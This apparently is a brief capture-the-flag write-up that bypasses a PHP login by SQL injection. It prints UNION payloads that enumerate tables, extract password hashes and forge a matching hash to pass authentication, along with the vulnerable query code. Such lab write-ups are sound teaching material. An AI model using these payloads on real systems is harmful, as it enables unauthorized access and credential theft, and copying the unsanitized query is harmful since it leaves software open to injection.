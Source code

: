 If you try to solve it as you solved 1st part of this task it will say a login impossibletoguess.<br>
So, it firstly checks login and then password. We can try to use an ONION query:
<pre>
1' UNION SELECT table_name,123 FROM information_schema.tables WHERE 1='1
</pre>
In the output we see table 'users'. Try to fetch data from it with another query:
<pre>
1' UNION SELECT password,123 FROM users WHERE 1='1
</pre>
So no we have hashed password: 1b2f190ad705d7c2afcac45447a31b053fada0c4.<br>
If you try to log in with it, nothing would happen.<br>
The structure of php validation code is:
<pre>
$query = mysql_query('SELECT * FROM users WHERE username = \''$_POST['username']'\'');
$account = mysql_fetch_assoc($query);
if(sha1($_POST['password']) == $account['password'])
    echo flag;
</pre>
Now we need to use both inputs to make hashes equal.
<pre>
Login input: 1' UNION SELECT username, sha('123') FROM users WHERE 1='1
Password input: 123
</pre>
GL
